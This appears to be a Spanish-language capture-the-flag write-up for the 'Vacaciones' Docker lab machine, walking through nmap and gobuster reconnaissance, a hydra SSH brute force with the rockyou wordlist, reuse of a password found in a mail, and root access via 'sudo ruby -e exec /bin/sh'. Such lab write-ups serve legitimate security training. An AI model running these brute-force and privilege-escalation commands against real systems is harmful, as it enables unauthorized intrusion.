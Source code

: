 ```yaml
---
Maquina: Vacaciones
SO: Linux
Explotación: Fuerza bruta
Escala_privs: Permisos sudo / discovery
Dificultad: Muy fácil
tags:
  - maquina
  - fuerza_bruta
  - linux
  - ssh
  - discovery
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sV -Pn 172.17.0.2
```

![[Pasted image 20241022194158.png]]

2. **Investigación del portal web**:

Como hemos observado hay un portal web activo en el puerto 80, así que vamos a indagar en el a ver que encontramos.

Tras pasar la herramienta gobuster tenemos el siguiente resultado:

```bash 
gobuster dir -u http://172.17.0.2/ -w /home/alejandro/wordlists/SecLists/Discovery/Web-Content/big.txt -x .php,.py,.sj
```

![[Pasted image 20241022194430.png]]

Por lo que vemos nada fuera de lo normal (salvo lo de /javascript) y la página principal está completamente en blanco... Pero vamos a ver el código fuente de la web yyyyyy:

![[Pasted image 20241022195133.png]]

Pues juan y camilo... vamos a probar por SSH

## Explotación:

3. **Acceso al SSH por Fuerza Bruta**:

Con el usuario camilo, vamos a intentar hacer un ataque de hydra para poder acceder al SSH

```bash 
hydra -l camilo -P /home/alejandro/wordlists/rockyou.txt -t 5 -vvv ssh://172.17.0.2
```

![[Pasted image 20241022200102.png]]

4. Búsqueda del mail:

Listo, ya tenemos el usuario camilo con las pass -> password1. vamos a entrar a la máquina.

![[Pasted image 20241022200241.png]]

Como la shell es un poco fea la vamos a mejorar con

```bash
SHELL=/bin/bash script -q /dev/null
```

Listo y una vez mejorado el shell vamos a ver si podemos tener permisos en algún archivo/comando y tras ver que no es posible y buscar algún directorio importante.... vemos que hay un correo para camilo.

![[Pasted image 20241022201350.png]]

4. Escalada de privs:

Y si probamos a acceder al ssh con el nombre de juan y esa password, veremos que nos deja.

```bash
ssh 172.17.0.2 -l juan
```

![[Pasted image 20241022201456.png]]

Ahora podemos investigar a ver si tenemos permisos de sudo sobre algún comando

```bash
sudo -l
```

![[Pasted image 20241022201555.png]]

y con esto vemos que tenemos permisos de root sobre el comando de ruby, basta con buscar en gtfobins que podemos ejecutar yyyyy

```bash
sudo ruby -e 'exec "/bin/sh"'
```

![[Pasted image 20241022201716.png]]



